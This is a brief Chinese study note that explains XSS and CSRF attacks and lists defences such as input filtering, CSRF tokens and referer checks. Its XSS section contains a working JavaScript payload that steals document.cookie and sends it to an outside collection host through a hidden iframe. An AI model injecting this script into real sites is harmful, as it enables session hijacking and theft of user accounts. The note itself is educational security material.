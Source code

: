 ## XSS
跨站脚本攻击

#### 特点：
- 不对服务端造成任何伤害
- 而是通过一些正常的站内交互途径，例如发布评论，提交含有js的内容文本。这时服务器端如果没有过滤或转义掉这些脚本，作为内容发布到页面上，其他用户访问这个页面的时候就会运行这些脚本

```js
// 用 <script type="text/javascript"></script> 包起来放在评论中

(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    var xssURIBase = "http://192.168.123.123/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);
```

#### 防御措施
- 过滤用户输入


## CSRF
Cross-site request forgery，跨站请求伪造

#### 特点
- 绝大多数网站是通过 cookie 等方式辨识用户身份（包括使用服务器端 Session 的网站，因为 Session ID 也是大多保存在 cookie 里面的），再予以授权的

#### 防御措施
过滤请求的处理者
- 使用REST 风格的 API 设计，GET、POST、PUT、DELETE 四种请求方法对应资源的读取、创建、修改、删除
- 请求令牌：首先服务器端要以某种策略生成随机字符串，作为令牌（token），保存在 Session 里。然后在发出请求的页面，把该令牌以隐藏域一类的形式，与其他信息一并发出。在接收请求的页面，把接收到的信息中的令牌与 Session 中的令牌比较，只有一致的时候才处理请求，否则返回 HTTP 403 拒绝请求或者要求用户重新登录验证身份
- 通过 referer 判定来源页面

- - -
- [总结 XSS 与 CSRF 两种跨站攻击](https://blog.tonyseek.com/post/introduce-to-xss-and-csrf/)
- [Wikipedia--Cross-site request forgery](https://en.wikipedia.org/wiki/Cross-site_request_forgery)
- [那些年我们一起学XSS](https://wizardforcel.gitbooks.io/xss-naxienian/content/)